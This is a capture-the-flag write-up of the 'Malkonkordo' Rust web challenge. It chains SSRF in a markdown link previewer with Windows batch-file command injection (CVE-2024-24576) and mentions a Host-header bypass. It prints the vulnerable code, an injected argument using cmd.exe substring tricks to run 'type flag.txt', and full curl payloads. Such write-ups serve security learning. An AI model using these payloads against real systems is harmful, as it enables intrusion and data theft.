


# Writeup: Malkonkordo

*By: TrebledJ*

Malkonkordo (meaning *discord* in Esperanto) is a Rust web app with markdown preview functionality.

Source code contains three Rust files:

- `main.rs`: Handles routing and middleware.
- `preview.rs`: Handles markdown to HTML conversion.
- `admin.rs`: Handles admin page and functionality.

Let's play around with the app.

## Link Previews

Links are previewed similar to Discord's embed.


But how does the previewing functionality work? How do we know what the title and image is?

This is handled on the server side in preview.rs.

1. The web server extracts links using a simple regex (preview.rs:L250).
2. The links are rendered to HTML asynchronously by fetching HTML content (preview.rs:L181).
3. The content is converted to a `LinkMetadata` struct containing extracted metadata: site name, title, description, and image. (preview.rs:L70) These rely on the [OpenGraph protocol](https://ogp.me/), a widespread metadata standard.
4. Finally, the `LinkMetadata` structs are converted to Discord-styled HTML and appended to the preview (preview.rs:L262).

However, this preview feature does not whitelist or blacklist which sites can be previewed. As a result, we can pass it arbitrary sites to be requested, constituting an *SSRF (Server Side Request Forgery)* vulnerability.

## Admin Panel

From the routing methods in main.rs, we can see routes to `static/admin.html` and a call to `admin::run_cmd` (main.rs:L48, achieved by sending a GET request to `/ai/run?cmd=...&arg=...`).

The admin page provides numerous features, some of them silly red herrings (`time`, `roll`), and some of them useful (`env`).

The `ping2` command is especially interesting, because it runs a Windows batch script using `std::process::Command`. Essentially, it tries to run `.\scripts\ping.bat <arg>` on the command line, and excludes certain characters.

```rust
"ping2" => {
    if arg.contains(['\'', '"', '*', '!', '@', '^', '?']) {
        return Err("bad chars found".to_string());
    }
    let routput = Command::new(".\\scripts\\ping.bat")
        .arg(arg)
        .output();

    if let Err(_e) = routput {
        return Err("failed to run ping2 output".to_string());
    }

    Ok(String::from_utf8_lossy(&routput.unwrap().stdout).to_string())
}
```

This hints at [CVE-2024-24576](https://nvd.nist.gov/vuln/detail/CVE-2024-24576), which allows command injection in Windows due to the [amazing parsing rules of cmd.exe](https://stackoverflow.com/questions/4094699/how-does-the-windows-command-interpreter-cmd-exe-parse-scripts). Although this finding by [Flatt Security](https://flatt.tech/research/posts/batbadbut-you-cant-securely-execute-commands-on-windows/) affects multiple languages (Haskell, Java, Node.js), for some reason it was more disruptive among the Rust community.

The idea is that when executing .bat files on Windows, cmd.exe is opened and parses the command to run the script. By injecting a string such as `"&calc.exe`, we should be able to escape parsing, and trigger a separate command to run `calc.exe`.

Since double-quotes `"` are blacklisted in L95, we need an alternative to escape. Some alternatives provided in Flatt's research disclosure are:

1. Using environment variables which contain `"`. By enumerating env variables with admin `env` command, we can check for entries containing `"`.
2. Using `CMDCMDLINE`, which may contain `"`.

## Putting It Together

Using SSRF, we can access local admin pages. Combined with a `debug=true` parameter (which echoes the first 500 characters of the HTML response), we can exfiltrate a few env variables.



Taking a hint from `CARGO_PKG_DESCRIPTION`, we can check the Cargo.toml provided, which indeed contain double quotes near the end, used to quote a poem by Emily Dickinson.



Our final argument payload is thus

```cmd
%CARGO_PKG_DESCRIPTION:~364,1%& type flag.txt
```

where `:~364,1` extracts the double quote using cmd.exe's substring syntax. Here is the corresponding curl command:

```shell
curl http://34.89.30.122/preview -X POST --data 'markdown=*This*%20is%20a%20**preview**!%0A%0Ahttp://127.0.0.1%3a8000%2fai%2frun%3fcmd%3dping2%26arg%3d%2525CARGO_PKG_DESCRIPTION%253a%257e364%252c1%2525%2526%2520type%2520flag.txt&debug=true' -s | grep crew
```

We could also `CMDCMDLINE:~1:1`:

```shell
curl http://34.89.30.122/preview -X POST --data 'markdown=*This*%20is%20a%20**preview**!%0A%0Ahttp%3a%2f%2f127.0.0.1%3a8000%2fai%2frun%3fcmd%3dping2%26arg%3d%25CMDCMDLINE%253a%257e-1%2525%2526type%2520flag.txt&debug=true' -s | grep crew 
```

## Flag

```
crew{Rozoj_estas_rugaj._Violoj_estas_bluaj._Parsirado_estas_malmola._Kiel_Vindozo_kaj_poo.}
```

## Notable Unintendeds

### Host Header Attack to Bypass Localhost Restrictions

Some players discovered the `Host` header could be used to bypass localhost restrictions, by setting the header to `Host: 127.0.0.1`.

This allowed them to access the admin interface (`<site>/ai/`), view *all* environment variables, and easily hunt for a double quote.
